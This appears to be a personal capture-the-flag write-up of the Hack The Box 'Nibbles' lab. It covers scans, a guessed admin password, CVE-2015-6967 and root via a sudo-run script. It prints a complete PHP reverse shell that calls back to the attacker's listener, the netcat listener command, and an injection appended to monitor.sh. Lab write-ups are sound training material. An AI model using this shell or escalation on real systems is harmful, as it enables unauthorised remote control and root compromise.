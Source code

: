 #easy 

## 0. **Lab infos**

**Difficulty :** Easy
**Name :** Nibbles
**IP** : 10.129.96.84
**Objectives :** Get user and root flags
**OS :** Linux

##### **Conclusion**
**Time :** 1h17
	**Start :** 21.04.2025 / 18:13
	**Break at/to :** 
	**Finish :** 21.04.2025 / 19:30
**Satisfaction :**  9/10 
### 1. **Reconnaissance

We start with an #nmap scan :

```BASH
nmap -A 10.129.96.84

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

![[Pasted image 20250421181609.png]]

On the inspector we have a comment who says /nibbleblog/

![[Pasted image 20250421181955.png]]

We make a gobuster scan :

```BASH
─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-3oaajlzaes]─[~]
└──╼ [★]$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.129.96.84/nibbleblog/ -x html,php,db,txt,js,log,config,py,bdd
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.84/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,db,txt,html,log,config,py,bdd,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 303]
/.php                 (Status: 403) [Size: 302]
/index.php            (Status: 200) [Size: 2987]
/sitemap.php          (Status: 200) [Size: 402]
/content              (Status: 301) [Size: 325] [--> http://10.129.96.84/nibbleblog/content/]
/themes               (Status: 301) [Size: 324] [--> http://10.129.96.84/nibbleblog/themes/]
/feed.php             (Status: 200) [Size: 302]
/admin                (Status: 301) [Size: 323] [--> http://10.129.96.84/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/plugins              (Status: 301) [Size: 325] [--> http://10.129.96.84/nibbleblog/plugins/]
/install.php          (Status: 200) [Size: 78]
/update.php           (Status: 200) [Size: 1622]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 327] [--> http://10.129.96.84/nibbleblog/languages/]
/LICENSE.txt          (Status: 200) [Size: 35148]
```

![[Pasted image 20250421183007.png]]

![[Pasted image 20250421183246.png]]

On the admin.php page we try admin:nibbles and it's work.

We find a CVE (2015-6967) so let's try
## 2. **Weaponization

with #Metasploit 

```BASH
set RHOSTS 10.129.96.84
set TARGETURI /nibbleblog/
set USERNAME admin
set PASSWORD nibbles
```

But it's telling us to try manualy.

SO we create image.php

```PHP
<?php
// Réverse shell PHP minimal
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.117';  // votre IP d'écoute
$port = 4444;  // votre port d'écoute
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

// ouverture du socket
if (!function_exists('stream_set_blocking')) {
    die("stream_set_blocking() manquante");
}
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    die("$errstr ($errno)");
}

// redirection des descripteurs
$fds = array($sock, STDIN, STDOUT, STDERR);
stream_set_blocking($sock, false);
stream_set_blocking(STDIN, false);

// boucle principale
while (1) {
    // lecture depuis le socket
    if (feof($sock)) break;
    $read = array($sock);
    $num_changed_streams = stream_select($read, $write_a, $error_a, null);

    if (in_array($sock, $read)) {
        $input = fgets($sock, $chunk_size);
        if (!$input) break;
        // exécution de la commande et renvoi du résultat
        $output = shell_exec($input);
        fwrite($sock, $output);
    }
}
fclose($sock);
?>
```

## 3. **Delivery

![[Pasted image 20250421185409.png]]

## 4. **Exploitation

```BASH
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-3oaajlzaes]─[~]
└──╼ [★]$ nc -lvnp 4444
```

And once we go to : 
http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php

we have our #RCE 

## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives

```BASH
ls /home/nibbler
personal.zip
user.txt
cat /home/nibbler/user.txt           
52e5f38017a66a6418f66d0036540450
```

So after extracting the zip file into the /home/nibbler/ and enter this command into the script :

```BASH
echo -e "\n# Injection pour lister /root\ncat /root/root.txt\n" >> /home/nibbler/personal/stuff/monitor.sh
```

and execut the script with sudo. We have this output :

```BASH
sudo /home/nibbler/personal/stuff/monitor.sh
total 32
drwx------  4 root root 4096 Apr 21 12:02 .
drwxr-xr-x 23 root root 4096 Dec 15  2020 ..
-rw-------  1 root root    0 Dec 29  2017 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Dec 10  2017 .cache
drwxr-xr-x  2 root root 4096 Dec 10  2017 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root 1091 Dec 15  2020 .viminfo
-r--------  1 root root   33 Apr 21 12:02 root.txt
b5efc41bc1be517b666fdc6c15890208
```